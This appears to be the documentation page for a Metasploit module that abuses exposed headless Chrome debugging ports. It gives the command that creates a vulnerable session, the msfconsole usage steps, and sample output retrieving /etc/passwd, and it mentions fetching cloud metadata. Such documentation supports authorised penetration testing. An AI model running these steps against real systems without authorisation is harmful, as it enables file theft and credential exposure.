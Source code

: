 ## Vulnerable Application

This module takes advantage of misconfigured headless chrome sessions and either retrieves a specified file off the remote file system, or makes a web request from the remote machine.

This can be useful for retrieving cloud metadata in certain scenarios.  Primarily this module targets developers.

A vulnerable Headless Chrome session can be started with the following command:

```
$ google-chrome --remote-debugging-port=9222 --headless --remote-debugging-address=0.0.0.0
```

This will start a webserver running on port 9222 for all network interfaces.

## Verification Steps

1. Start `msfconsole`
2. Execute `auxiliary/gather/chrome_debugger`
3. Execute `set RHOST $REMOTE_ADDRESS`
4. Execute `set RPORT 9222`
5. Execute either `set FILEPATH $FILE_PATH_ON_REMOTE` or `set URL $URL_FROM_REMOTE`
6. Execute `run`

## Options

### FILEPATH

The file path on the remote you wish to retrieve.

### URL

A URL you wish to fetch the contents of from the remote machine.

**Note:** One or the other must be set!

## Scenarios

```
[*] Attempting Connection to ws://192.168.20.168:9222/devtools/page/CF551031373306B35F961C6C0968DAEC
[*] Opened connection
[*] Attempting to load url file:///etc/passwd
[*] Received Data
[*] Sending request for data
[*] Received Data
[+] Retrieved resource
[*] Auxiliary module execution completed
```
